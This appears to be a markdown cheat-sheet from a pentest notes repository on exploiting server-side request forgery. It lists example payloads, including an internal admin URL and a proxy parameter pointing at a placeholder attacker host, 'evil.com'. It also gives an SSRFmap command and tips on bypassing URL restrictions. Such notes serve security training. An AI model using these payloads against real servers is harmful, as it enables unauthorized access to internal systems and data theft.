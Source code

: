 # 🌐 SSRF (Server-Side Request Forgery) Exploitation

## Overview
SSRF exploitation involves leveraging vulnerabilities to make unauthorized requests from the server on behalf of the attacker.

## Example Payloads
1. Internal URL request:
    ```bash
    http://internal-server/admin
    ```
2. External URL request:
    ```bash
    http://example.com/proxy?url=http://evil.com
    ```

## Interactive Example
1. Test a vulnerable web application by inputting the payloads into URL parameters or form fields.
2. Observe the server's responses to confirm unauthorized requests.

## Tools
- **SSRFmap** for automated SSRF testing:
    ```bash
    python3 ssrfmap.py -u "http://example.com/vulnerable?param=value" -p param
    ```

## Tips
- Observe server responses to confirm unauthorized requests.
- Test in URL parameters, form fields, headers.
- Use bypass techniques for restricted URLs.

## Real-World Scenarios
- Accessing internal systems and services.
- Exfiltrating sensitive data from backend systems.

## Resources
- [Web Security Academy: SSRF](https://portswigger.net/web-security)
- [SANS Institute: SSRF Training](https://www.sans.org/)
